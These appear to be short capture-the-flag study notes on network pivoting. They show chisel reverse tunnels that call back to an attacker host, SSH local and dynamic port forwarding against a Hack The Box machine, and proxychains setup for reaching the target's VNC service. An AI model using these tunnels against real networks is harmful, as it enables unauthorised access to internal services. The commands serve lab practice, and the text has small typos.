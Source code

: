 ```
./chisel server --reverse -p PORT ##to create a server 
 client 
client <ATTACKER_IP>:9001 R:8500:127.0.0.1:8500 ##create client
 .\chisel.exe client 10.10.17.185:9002 R:8888:localhost:8888
```



# ssh reverse tunnel
```bash
ssh -L my_port:service_IP:target_port 	ssh target ip


ssh -D 1080 -L6801:127.0.0.1:5801 -L6901:127.0.0.1:5901 charix@poison.htbb

-L # listening ports on our machine access  5801 and 5901
-D # Dynamic through proxy

```

# Proxy chains
First we add our local host and wanted port into /etc/proxychains.conf
```bash
socks4 127.0.0.1 8081
```
Then we can use ssh to tunnel though port 8081
```bash
ssh charix@10.10.10.84 -D 8081
```

then we can use proxychains with what ever command we want using the wanted port
```bash
proxychains vncviewer 127.0.0.1:5901 -passwd secret
```